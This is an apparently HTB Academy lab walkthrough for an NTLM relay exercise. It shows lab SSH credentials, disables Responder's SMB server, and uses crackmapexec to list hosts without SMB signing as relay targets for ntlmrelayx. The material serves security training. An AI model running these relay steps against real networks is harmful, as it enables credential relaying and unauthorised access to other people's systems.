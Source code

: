 After spawning the target machine, students will connect via SSH with the provided credentials `htb-student:HTB_@cademy_stdnt!`. Students will have to note that they will need to either establish three SSH connections to the spawned target machine, use `tmux`, or connect to the target via `RDP`. This is because they will utilize `Responder` , `ntlmrelayx` , and `smbclient.py`/`smbexec.py`, and those tools take over the stdin while they are running.

Code: shell

```shell
ssh htb-student@STMIP
```

```shell-session
┌─[eu-academy-1]─[10.10.14.196]─[htb-ac-8414@htb-7admwdxcua]─[~]
└──╼ [★]$ ssh htb-student@10.129.100.121
The authenticity of host '10.129.100.121 (10.129.100.121)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.100.121' (ECDSA) to the list of known hosts.
htb-student@10.129.100.121's password: HTB_@cademy_stdnt!
<SNIP>
  
Last login: Wed Aug 30 16:24:31 2023 from 10.10.14.33 
htb-student@ubuntu:~$
```

Subsequently, students need to change their working directory to `tools/Responder`. They will have to turn off the SMB Server, usually started by `Responder`, by altering the configuration in the `Responder.conf` file located in the same directory. This is done to allow the relayed authentication to go to `ntlmrelayx`.

Code: shell

```shell
cd tools/Responder
sed -i "s/SMB = On/SMB = Off/" Responder.conf
cat Responder.conf | grep -i smb
```

```shell-session
htb-student@ubuntu:~$ cd tools/Responder/
htb-student@ubuntu:~/tools/Responder$ sed -i "s/SMB = On/SMB = Off/" Responder.conf

htb-student@ubuntu:~/tools/Responder$ cat Responder.conf | grep -i smb
SMB = Off
```

Once students have altered and verified the configuration, they will have to generate a target file of computers that have SMB signing `disabled` (False) in the other SSH shell session. Utilizing `crackmapexec` and its `--gen-relay-list` parameter, students can generate a file containing the targets over the SMB protocol:

Code: shell

```shell
crackmapexec smb 172.16.117.0/24 --gen-relay-list targets.txt
```
